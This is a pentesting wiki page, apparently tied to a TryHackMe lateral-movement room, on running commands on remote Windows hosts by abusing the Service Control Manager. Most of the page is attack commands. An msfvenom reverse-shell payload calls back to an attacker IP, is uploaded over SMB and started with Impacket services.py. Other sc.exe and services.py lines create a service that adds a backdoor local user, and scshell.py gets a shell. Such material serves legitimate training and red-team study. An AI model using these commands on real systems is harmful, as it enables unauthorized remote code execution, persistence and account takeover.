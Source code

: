 # Services (SVCCTL)

## Theory

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

* By using [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) protocols over RPC to connect EMP at port 135. WIll ask for the SVCCTL RPC Endpoint wich is a dynamic port
* Try to reach SVCCTL Through SMB named pipes on port 445 (SMB) or 139 (SMB over NetBIOS)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### Service.py

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [service.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/service.py) can be use to interact with services remotely.

```bash
# create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name shell-svc

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name shell-svc
```

We also can execute commands instead of a binary

```bash
# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name addme -display addme -path "net user munra Pass123 /add"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name addme

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name addme
```

{% hint style="info" %}
You will get an error starting the service but the commands will still be executed
{% endhint %}

### Scshell.py

The script [scshell.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/scshell.py) can automate the process to spawn a shell

```bash
#Create a service, get shell, delete service
scshell.py domain/<user>@<TARGET>
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use the built in sc.exe binary to remotely interact with services

```bash
#Start a remote service
sc.exe \\TARGET create MyService binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start MyService

#Stop and delete service
sc.exe \\TARGET stop MyService
sc.exe \\TARGET delete MyService
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}
